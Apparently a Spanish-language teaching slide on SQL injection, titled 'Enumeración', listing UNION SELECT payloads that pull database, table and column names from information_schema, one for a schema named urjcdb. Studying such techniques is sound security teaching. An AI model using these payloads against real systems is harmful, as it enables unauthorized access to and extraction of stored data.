

Enumeración
Nombres de bases de datos:
UNION SELECT 1,2,3,4,schema_name FROM information_schema.schemata
Nombres de tabla
UNION SELECT 1,2,3,4,table_name FROM information_schema.tables WHERE table_schema=urjcdb
Nombres de columnas
UNION SELECT 1,2,3,4,column_name FROM information_schema.columns WHERE table_name=...